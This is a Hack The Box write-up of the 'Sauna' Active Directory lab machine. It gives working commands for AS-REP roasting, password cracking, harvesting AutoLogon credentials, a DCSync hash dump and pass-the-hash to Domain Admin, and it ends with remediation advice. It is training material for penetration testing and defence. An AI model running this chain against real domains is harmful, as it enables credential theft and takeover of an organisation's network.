



# Sauna — Hack The Box

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Retired |
| **Key techniques** | Username generation from OSINT, AS-REP Roasting, AutoLogon credential harvesting, DCSync |

---

## TL;DR

Sauna's website lists employee full names, which is enough to derive a
realistic username list without any internal access. That list feeds an
AS-REP Roast, cracking the password for a user with Kerberos
pre-authentication disabled. A local enumeration script on that user's shell
turns up a second account's password stored in cleartext via Windows
AutoLogon — a classic "found creds lying around" win. BloodHound shows that
second account holds the `DS-Replication-Get-Changes-All` extended right,
which is precisely what's needed for a DCSync attack — pulling every hash in
the domain, including the Administrator's.

---

## Recon & Enumeration

```bash
nmap -sC -sV 10.129.95.180
```


Open: HTTP (80), LDAP (389, domain `EGOTISTICAL-BANK.LOCAL`), Kerberos (88),
SMB (445). Same signature as Forest — a domain controller — so the plan is
enumerate the domain, not look for a web exploit.

**The website itself was the first useful source.** It listed employee full
names on a staff page. Rather than guess usernames blindly, I generated the
common corporate naming patterns from those names:

```
fergus.smith / fsmith / f.smith
shaun.coins  / scoins / s.coins
hugo.bear    / hbear  / h.bear
...
```

This turns public-facing content that looks like harmless "About Us" copy
into a username list — a reminder that AD recon doesn't stop at LDAP and SMB.

---

## Foothold / Initial Access

With a username list but no idea of the lockout policy, spraying guessed
passwords felt too risky to try first. **AS-REP Roasting** doesn't touch the
lockout counter and only needs valid usernames, so it was the safer first
move:

```bash
impacket-GetNPUsers egotistical-bank.local/ -usersfile users.txt -dc-ip 10.129.95.180
```

One of the generated usernames, `fsmith`, has Kerberos pre-authentication
disabled — the AS-REP comes back with a crackable hash.



Cracked offline against `rockyou`:

```bash
john hash.txt -w=/usr/share/wordlists/rockyou.txt
# fsmith:Thestrokes23
```

Verified the credential works over WinRM before committing to a shell:

```bash
crackmapexec winrm 10.129.95.180 -u fsmith -p Thestrokes23 -d egotistical-bank.local
evil-winrm -i 10.129.95.180 -u fsmith -p Thestrokes23
```

Foothold as `fsmith`, user flag retrieved.

---

## Privilege Escalation

Ran an automated local enumeration script to surface common Windows
misconfigurations rather than hunting for them all by hand:

```powershell
# WinPEAS or equivalent
```

It flagged **AutoLogon credentials** in the registry — a second account,
`svc_loanmgr`, configured to log on automatically with its password stored in
cleartext.



This is a very common finding: AutoLogon is meant for convenience,
not security, and it leaves a plaintext credential sitting in
`HKLM\...\Winlogon` for anyone with local access to read.

```powershell
evil-winrm -i 10.129.95.180 -u svc_loanmgr -p '<AUTOLOGON_PASSWORD>'
```

With a second domain account in hand, the next question is the same one as
on any AD box: what can this account reach that the last one couldn't? Ran
BloodHound to find out:

```powershell
upload SharpHound.exe
.\SharpHound.exe -All
```

BloodHound shows `svc_loanmgr` holds the **`DS-Replication-Get-Changes-All`**
extended right on the domain — the specific permission that enables a
**DCSync** attack

 (replicate password data as if this account were a domain
controller). That's not a coincidence you'd catch just from group membership;
it only shows up once the ACL graph is inspected.

```bash
impacket-secretsdump egotistical-bank.local/svc_loanmgr@10.129.95.180
```

That dumps the Administrator's NTLM hash. A quick check before committing:

```bash
crackmapexec smb 10.129.95.180 -u administrator -H <NT_HASH>
```

Then pass-the-hash to a full shell:

```bash
impacket-psexec egotistical-bank.local/administrator@10.129.95.180 -hashes <LM_HASH>:<NT_HASH>
```

Domain Admin, root flag retrieved.

---

## Lessons Learned

- **Public-facing content is domain recon.** An "About Us" staff page turned
  into a working username list — OSINT against the org, not just the host.
- **AS-REP Roasting again proved cheaper than spraying** when the lockout
  policy is unknown. It's become a reflex first move on any AD box.
- **AutoLogon is a credential leak by design.** Any time I see it configured,
  I treat the registry key as a plaintext password waiting to be read.
- **A single extended right (`DS-Replication-Get-Changes-All`) is
  functionally equivalent to Domain Admin.** BloodHound is what makes that
  visible — checking group membership manually would have missed it entirely.

---

## Remediation

- Avoid listing full employee names on public pages, or assume they will be
  turned into a username list and harden Kerberos accordingly (enforce
  pre-authentication, strong password policy).
- Never configure Windows AutoLogon on production or domain-joined hosts —
  the password is trivially recoverable from the registry.
- Audit `DS-Replication-Get-Changes` / `-All` rights the same way you'd audit
  Domain Admins membership — grant them to as few principals as possible and
  review regularly.

---

**Machine:** [Hack The Box — Sauna](https://www.hackthebox.com/machines/sauna)
